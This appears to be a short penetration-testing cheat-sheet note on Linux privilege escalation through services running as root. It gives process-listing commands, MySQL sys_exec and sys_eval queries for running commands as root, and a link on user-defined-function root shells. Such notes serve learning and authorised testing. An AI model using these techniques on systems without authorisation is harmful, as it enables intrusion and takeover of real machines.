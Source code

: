 # Programs Running as Root

## Programs Running as Root

* the idea here is that if specific service is running as root and you can make that service execute commands as root
* look for a webserver, database or anything else like that
* a typical example of this is mysql, example is below

## Check Which Processes are Running

### Metasploit

```bash
ps
```

### Linux

```bash
ps aux
```

## MySQL

* if you find that MySQL is running as root and you have username and password to log in to the database
* you can issue the following commands

```bash
select sys_exec('whoami');
select sys_eval('whoami');
```

### If Neither of Those Work, Use a User Defined Function

* [https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/](https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)

